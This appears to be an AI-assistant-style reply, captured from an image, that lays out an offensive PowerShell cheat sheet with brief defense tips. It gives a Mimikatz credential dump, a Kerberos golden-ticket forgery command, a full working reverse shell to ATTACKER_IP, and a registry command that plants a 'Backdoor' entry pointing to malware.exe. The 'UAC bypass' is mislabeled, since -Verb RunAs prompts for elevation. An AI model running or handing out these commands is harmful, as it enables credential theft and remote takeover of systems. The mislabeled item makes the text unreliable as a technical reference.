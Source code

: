 Here’s a **revised, improved, and PowerShell-focused version** of your commands, with clearer explanations, defensive countermeasures, and ethical warnings. Non-PowerShell content (e.g., Nmap, Metasploit, Linux) has been removed:

---

### **Offensive PowerShell Commands**  
#### **1. Credential Theft**  
**Extract Logon Passwords**  
```powershell  
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'  
```  
- **Purpose**: Dumps plaintext passwords, NTLM hashes, and Kerberos tickets from LSASS memory.  
- **Defense**: Enable **LSASS Protection** (EnableLSAProtection registry key) and restrict debug privileges.  

**Golden Ticket Attack**  
```powershell  
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:example.com /sid:S-1-5-21-... /krbtgt:HASH /ticket:golden.kirbi"'  
```  
- **Purpose**: Forges Kerberos tickets for persistent domain access.  
- **Defense**: Monitor for **unusual TGT requests** and enforce strong krbtgt account password policies.  

---  

#### **2. Reverse Shell**  
**TCP Reverse Shell**  
```powershell  
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4444);  
$stream = $client.GetStream();  
[byte[]]$bytes = 0..65535 | %{0};  
while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0) {  
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);  
  $sendback = (iex $data 2>&1 | Out-String );  
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";  
  $stream.Write(([text.encoding]::ASCII).GetBytes($sendback2),0,$sendback2.Length);  
  $stream.Flush()  
};  
$client.Close()  
```  
- **Purpose**: Establishes a reverse shell to evade firewall restrictions.  
- **Defense**: Block outbound traffic to unknown IPs and use **network segmentation**.  

---  

#### **3. Privilege Escalation**  
**Bypass UAC via Silent Registry Update**  
```powershell  
Start-Process "C:\Windows\System32\cmd.exe" -Verb RunAs -ArgumentList "/c reg add HKLM\SOFTWARE\Microsoft /v Backdoor /t REG_SZ /d C:\malware.exe"  
```  
- **Purpose**: Elevates privileges without triggering UAC prompts.  
- **Defense**: Enable **UAC** at the highest level and audit registry changes.  

---  